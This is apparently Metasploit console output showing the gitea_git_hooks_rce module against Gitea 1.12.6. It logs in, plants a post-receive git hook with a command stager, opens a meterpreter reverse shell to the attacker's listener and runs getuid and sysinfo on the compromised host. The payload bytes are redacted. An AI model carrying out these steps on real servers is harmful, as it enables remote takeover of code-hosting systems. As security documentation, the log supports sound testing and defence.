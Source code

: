 ```
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.75     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gitea_git_hooks_rce) > set verbose true
verbose => true
msf6 exploit(multi/http/gitea_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.1.75:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Gitea version is 1.12.6
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Authenticate with "msfuser/Msf!23"
[*] Get "csrf" value
[+] csrf=T1KKDKlPGzvIj4fuomjsVJEa-MU6MTYxNzE5OTU0NzU0MTcyNzcwMA
[+] Logged in
[*] Create repository "Sonair_Trippledex"
[*] Get "csrf" and "uid" values
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[+] uid=1
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAA...<redacted>
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAO...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[+] last_commit=4d92bd44d30756f8cecaf2682cb4dd5129856085
[*] RfWwr.txt created
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.1.75
[*] Meterpreter session 1 opened (192.168.1.75:4444 -> 192.168.1.75:61289) at 2021-03-31 16:05:51 +0200
[*] Cleaning up
[*] Get "csrf" value
[+] csrf=9836W_NOSYO4u-1hnrr5F9UZ4dg6MTYxNzE5OTU0ODU0MjM4MzQwMA
[*] Repository Sonair_Trippledex deleted.

meterpreter > getuid
Server username: git @ 7ed1d63a11a7 (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 172.20.0.3
OS           :  (Linux 4.19.121-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
